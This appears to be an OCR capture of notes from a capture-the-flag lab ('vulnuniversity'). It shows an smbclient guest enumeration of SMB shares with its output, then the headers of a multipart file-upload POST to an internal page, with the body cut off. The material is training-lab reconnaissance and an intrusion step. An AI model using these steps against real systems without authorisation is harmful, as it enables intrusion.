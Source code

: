 ```python



/////////////////////////////////////




vemos los recursoso compartidos por SMB :





┌──(root㉿kali)-[~]
└─# smbclient -L //10.10.200.190 -U guest

Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (vulnuniversity server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            VULNUNIVERSITY
















POST /internal/index.php HTTP/1.1
Host: 10.10.200.190:3333
Content-Length: 3387
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.200.190:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBsRFqB8h7iwsROLb
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.200.190:3333/internal/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: close

```